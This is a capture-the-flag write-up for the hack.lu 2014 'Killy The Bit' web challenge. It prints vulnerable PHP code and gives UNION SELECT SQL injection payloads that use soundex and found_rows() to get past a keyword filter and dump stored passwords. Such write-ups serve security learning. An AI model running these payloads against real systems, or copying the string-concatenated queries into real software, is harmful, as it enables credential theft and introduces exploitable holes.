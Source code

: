 ```yaml
---
title: 'hack.lu CTF 2014: Killy The Bit'
date: 2014-10-26 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- lang/php
layout: post
author: f0rki
---
```


## Write-up

This was a fun challenge :) The setting was that the royal bank of Fluxembourg
was hacked by Killy the Bit and now they set up a page to reset the user
passwords. Because Killy owes us a favor we received the source code for the
password resetting page. So the whole thing was php using mysql as a database.
Inspecting the source you can easily spot the SQL injection vulnerability.  But
finding it wasn't the challenge, actually exploiting it was.


```php
<?php
include 'config.php';

// unintersting HTML output truncated

//<!-- blind? we will kill you :) -->
    if(isset($_GET['name'])
        && $_GET['name']!=''
        && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name']))
    {
        $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            // Generation of new password
            //<topsecure content>
            // this was filtered during the creation of the phps file
            //</topsecure content>
            die("A new password was generated and sent to your email address!");
        } else {

            $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

            if(mysql_fetch_object($res)) {
                echo "We couldn't find your username, but it sounds like this user:<br>";
            } else {
                die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
            }
            $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

            while($row = mysql_fetch_object($res)) {
                echo $row->name;
                echo "<br>";
            }
        }
    } else {
        // uninteresting HTML output truncated
    }
?>
```

As you can see on line 9 we cannot use and, or, sleep and benchmark in the
query which makes exploiting this a little tricky. In total the whole script
performs three queries. We do not see any output of the first two queries. Of
course we could do a blind SQL injection here, but this is made harder by the
preg_match filter. As it turns out we can craft an input so that the first
query returns 0 rows, the second one returns 1 row and the last query returns
all the possible rows. The key to this is the 'sounds like' part of the
last two queries. 'a sounds like b' is a shortcut for 'soundex(a)=soundex(b)'.


    > select soundex('admin'), soundex('admni');
    +------------------+------------------+
    | soundex('admin') | soundex('admni') |
    +------------------+------------------+
    | A350             | A350             |
    +------------------+------------------+


Now we can get to the last the query by using 'admni' as the value for the
name column in the where part of the query. Now we need to use union select
to actually fetch data. Unfortunately just simply injecting the following

    admni' union select passwd, email from user -- x

makes the first query to succeed and we don't see any output. So we need to
find a way to restrict the union select to return 0 rows in the first query.
Fortunately there exists the
[found_rows function ](https://mariadb.com/kb/en/mariadb/documentation/functions-and-operators/information-functions/found_rows/)
in mysql, which returns the number of rows found by the last query.
By injecting the following we can get the first query to return 0 rows and
thus we get to the interesting else branch.

    admni' union select passwd, email from user where found_rows() > 0 -- x

1. query: returns 0 rows, name='admni' is false, found_rows() is 0
2. query: return 1 row, sounds like 'admni' returns 1 result ('admin'),
   found_rows() is 0
3. query: returns lots of rows, souds like 'admni' is true, found_rows() is 1
   and therefore we get everything in the passwd column.

...and we got the flag :)

    flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}
